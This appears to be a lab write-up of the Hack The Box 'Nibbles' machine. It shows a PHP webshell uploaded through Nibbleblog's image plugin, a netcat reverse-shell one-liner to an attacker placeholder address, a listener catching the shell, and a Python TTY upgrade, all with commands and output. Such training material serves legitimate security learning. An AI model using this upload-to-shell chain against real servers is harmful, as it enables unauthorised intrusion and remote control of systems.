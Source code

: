 Within **Plugins** / my_image there is the options to upload an image.

Creating a php file to test for code execution with the following snippet:
`<?php system('id'); ?>`
	save and upload

testing to see if the file was uploaded to the previously found **/content** directory: 
```shell-session
mricognito@htb[/htb]$ curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```
it seems as though it has worked, next lets create a reverse shell with php and repeat
	lets use [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) to find a Bash reverse shell one-liner and add it into the php file:
```shell-session
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
```

add the VPN address into the `<ATTACKING IP>` and the corresponding port into `<LISTENING PORT>`

Start a listening port on the attacking machine with the following command:

```shell session
nc -lvnp 9443
```
Finally to execute the reverse shell lets call the php file by cURLing:
```shell session
http://nibbleblog/content/private/plugins/my_image/image.php
```
This results in the following on our attacking machine:
```shell-session
mricognito@htb[/htb]$ nc -lvnp 9443

listening on [any] 9443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 40106
/bin/sh: 0: can't access tty; job control turned off
$ id

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

*upgrading the reverse shell to a 'nicer' shell, this is because the shell we have is not a fully interactive TTY*
	*this means we can't do commands such as su, text editors, and tab-completion*
	we can use this post:
	https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
	or we can use the Python one-liner to spawn a psuedo-terminal
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```shell session
nibbler@Nibbles:/var/www/html$ cd ~
cd ~
nibbler@Nibbles:/home/nibbler$ ls
ls
personal.zip  user.txt
```
